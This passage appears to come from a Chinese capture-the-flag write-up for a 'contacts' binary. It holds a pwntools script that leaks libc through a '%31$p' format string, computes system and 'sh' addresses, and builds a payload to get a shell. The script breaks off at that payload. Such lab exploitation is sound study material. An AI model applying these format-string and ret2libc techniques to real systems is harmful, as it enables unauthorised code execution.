 #### 获取 shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入 5 ，退出程序即会执行 ret 指令，就可以获取 shell。

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : contacts.py
from pwn import *
context.log_level = 'debug'

p = process("./contacts")
elf = ELF("./contacts")
#libc = ELF("/lib/i386-linux-gnu/libc.so.6")
# 使用题目提供的libc
libc = ELF("./libc.so")

def creat(name,number,length,description):
	p.sendlineafter(">>> ",'1')
	p.sendlineafter("Name: ",name)
	p.sendlineafter("No: ",number)
	p.sendlineafter("description: ",str(length))
	p.sendlineafter("description:\n",description)

def free(name):
	p.sendlineafter(">>> ",'2')
	p.sendlineafter("remove? ",name)

def edit(name,choose,newname='skye',length=10,description='skye'):
	p.sendlineafter(">>> ",'3')
	p.sendlineafter("change? ",name)
	p.sendlineafter(">>> ",str(choose))
	if(choose==1):
		p.sendlineafter("name: ",newname)
	elif(choose==2):
		p.sendlineafter("description: ",str(length))
		p.sendlineafter("Description: \n",description)

def show():
	p.sendlineafter(">>> ",'4')

    
# leak libc
creat("skye","skye",24,'a'*4+"%31$p")
show()
p.recvuntil('a'*4)

libc_start_main = int(p.recv(10),16)
log.info("libc_start_main:"+hex(libc_start_main))
libc_base = libc_start_main - 0x18637
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + libc.symbols['system']
log.info("system_addr:"+hex(system_addr))
binsh_addr = libc_base + libc.search('sh\x00').next()
log.info("binsh_addr:"+hex(binsh_addr))


# leak ebp&heap addr
# 将system前置可能会遇到\x00阻断，可自行后置，并调整ebp覆盖值
payload = p32(system_addr) + 'bbbb' + p32(binsh_addr) + '%6$p%11$pcccc'
```